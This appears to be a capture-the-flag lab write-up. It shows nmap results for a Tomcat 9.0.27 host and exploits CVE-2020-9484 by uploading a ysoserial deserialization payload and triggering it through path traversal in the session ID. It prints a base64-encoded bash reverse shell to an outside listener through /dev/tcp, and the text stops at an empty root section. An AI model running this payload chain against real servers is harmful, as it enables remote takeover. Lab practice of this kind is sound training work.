

## nmap scan

```bash
# nmap -sC -sV -Ao nmap 10.10.10.205

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 12:28 CEST
Nmap scan report for 10.10.10.205
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.87 seconds
```

## open port 

- port 22 as ssh as usual
- port 8080 with a running tomat instance at version 9.0.27

## tomcat 9.0.27

A little bit of looking around reveals that the running version of tomcat seems to be vulnerable to a rce exploit. [1](https://github.com/PenTestical/CVE-2020-9484)

## file upload

Looking around and playing around reveals a file upload service at `http://10.10.10.205:8080/service/`. It gets an email address and a file. The service says it checks the file for malicious content and sends a report to the email address. 
Playing around with burpsuite reveals that the service tries to store those files under `/opt/samples/uploads` and uses `apache/commons/fileupload` to do that.



## combining

Combining the RCE exploit with the findings of the file upload we can create a reverse shell with [ysoserial](https://github.com/frohoff/ysoserial), upload it and call it with path traversal of the `SESSIONID` field in the request. 

## exploiting user

Starting with the reverse shell file we start up with ysoserial to create the payload. Because we don't know the Verison of `apache/commons/fileupload` we have to try serveral `CommonsCollectionsX` provided by ysoserial. As reverse shell we're using a bash shell which we base64 encode. 

1. base64 of bash revese shell
```bash
# echo 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK
```

2. create reverse shell with ysoserial
```bash
java -jar ysoserial-master.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK}|{base64,-d}|{bash,-i}" > shell.session
```

We take that file and upload it using the intended way. Thereupon we request any site on the tomat site and manipulate the `SESSIONID` using burpsuite. The value is equivalent to the previous found directory where the files are uploaded to + the file name of the created reverse shell subtracted by the `.session` file-extrension. This is because tomcat automatically appends `.session` to the requested `SESSIONID`.


Start a listener on the local maschine and forward the manipulated request. Voila! User level of Fiola. 

## root exploitation

